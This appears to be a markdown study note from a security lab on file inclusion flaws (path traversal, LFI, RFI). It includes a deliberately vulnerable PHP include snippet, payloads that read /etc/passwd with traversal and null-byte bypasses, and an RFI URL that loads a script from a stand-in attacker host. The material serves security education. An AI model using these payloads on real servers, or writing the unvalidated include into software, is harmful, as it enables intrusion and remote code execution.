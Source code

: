 # File Inclusion
|-> **Local File Inclusion (LFI)** <br>
|-> **Remote File Inclusion (RFI)** <br>
|-> **Directory Traversal**

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/03a1db1f-9669-4348-9c2b-e9b3056ad3fb" alt="Anatomy of a Get Request to Access a File">
</p>
<p align="center">
  <em>Fig: Anatomy of a Get Request to Access a File</em>
</p>

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/14628d7f-7f11-463f-bb40-ee6bf8154c35" alt="How A Request Works">
</p>
<p align="center">
  <em>Fig: How A Request Works</em>
</p>

**Cause:** 
<br> The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them.
<br>
**Risk:** 
<br> An attacker can access any file in the web server or the operating system including source code using the vulnerablity. 
<br> They can even perform RCE by uploading their own files to the server.

## Path Traversal
AKA _**Directory Traversal/Dot-Dot-Slash Attack**_ <br>
This attack allows a hacker unauthorized access to operating system filee outside the web application's root directory.

In PHP, you can use the [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php) to read the content of a file.

**Example:** `http://webapp.thm/get.php?file=../../../../etc/passwd`

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/eab139b1-d196-46eb-87f7-952d3f212e60)

## Local File Inclusion (LFI)
LFI is a vulnerability which allows attackers to retrive local files hosted in a web server and even execute malicious codes.

LFI can occur in web applications written in PHP, ASP, JSP, or even Node.js. In PHP, some functions contribute to the vulnerability of web applications including `include`, `require`, `include_once`, and `require_once`.

### Case 1: 
Let's say we have an web app which can switch between English and Arabian language. The PHP code is written as follows:
```php
<?PHP 
	include($_GET["lang"]);
?>
```

THE PHP code uses a GET request via the URL parameter `lang` to include the file of the page. We should have two kinds of requests:
- `http://webapp.thm/index.php?lang=EN.php`
- `http://webapp.thm/index.php?lang=AR.php`
But a malicious actor can read any file from the server using the vulnerable parameter `lang`, if there is no input validation and no directory specified in the `include` function. So an attacker can do:
`http://webapp.thm/get.php?file=/etc/passwd`

### Case 2: Bypass Invalid Extension
Use Null Bytes if the PHP code is configured in such a way that it will only accept a certain extension (such as only .php). In this case, a sample payload would be:
`http://webapp.thm/index.php?lang=../../../../etc/passwd%00`
Null byte will tell the PHP code to ignore anything after the null byte including the extension.

**NOTE:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

## Case 3: Bypass A Filtered Keyword (`/etc/passwd`)
**Technique 1:** Use Null Bytes `%00`

**Technique 2:** Use `/.` in front of filtered keyword

## Case 4: Bypass A Filtered Keyword (Replaced `../` with Empty String)
![image](https://github.com/PranjalBasak/Documentation/assets/66166653/3f5b7720-b831-4e08-99b7-fe58342cc5f5)

## Case 5: Directory Specified
Considering the directory `languages` is specified,
Payload: `?lang=languages/../../../../../etc/passwd.`

## Remote File Inclusion (RFI)
RFI is an attack which allows an attacker to include remote files to the web application and execute malicious scripts in the server.

In RFI, one can inject an external URL into `include` function. But one requirement is that `allow_url_fopen` option needs to be `on`. RFI is deadlier than LFI since it allows RCE on the server. Other consequences include:
- Sensitive Information Disclosure
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/9ed4aa3d-d153-403e-8f01-abc62626637e)
 Example Payload: `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`
